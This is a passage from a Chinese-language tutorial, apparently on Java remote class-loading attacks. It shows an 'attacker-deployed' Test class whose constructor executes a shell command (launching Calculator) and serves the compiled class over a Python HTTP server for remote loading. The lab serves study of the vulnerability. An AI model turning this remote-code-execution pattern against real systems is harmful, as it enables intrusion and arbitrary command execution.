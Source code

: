 然后在另一个目录下用IDEA建立一个项目，写一个Java类，需要在另一个目录的原因是如果在同一目录下会直接从class文件中取类，不会远程加载

```
// Test.java  攻击者部署的文件，用来被加载引用
import java.io.*;

public class Test {
    public Test() throws IOException,InterruptedException{
        String cmd="open /System/Applications/Calculator.app";
        final Process process = Runtime.getRuntime().exec(cmd);
        printMessage(process.getInputStream());;
        printMessage(process.getErrorStream());
        int value=process.waitFor();
        System.out.println(value);
    }

    private static void printMessage(final InputStream input) {
        // TODO Auto-generated method stub
        new Thread (new Runnable() {
            @Override
            public void run() {
                // TODO Auto-generated method stub
                Reader reader =new InputStreamReader(input);
                BufferedReader bf = new BufferedReader(reader);
                String line = null;
                try {
                    while ((line=bf.readLine())!=null)
                    {
                        System.out.println(line);
                    }
                }catch (IOException e){
                    e.printStackTrace();
                }
            }
        }).start();
    }
}
```

我们先运行直接IDEA运行Server.java

然后到`Test.java`的目录下，编译它，并且用打开Python简单的目录服务器提供文件查找服务

```
$ javac Test.java
$ ll
total 40
-rw-r--r--  1 milkfr  staff   944B Jan 14 17:10 Test$1.class
-rw-r--r--  1 milkfr  staff   996B Jan 14 17:10 Test.class
-rw-r--r--  1 milkfr  staff   1.1K Jan 14 17:10 Test.java
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```
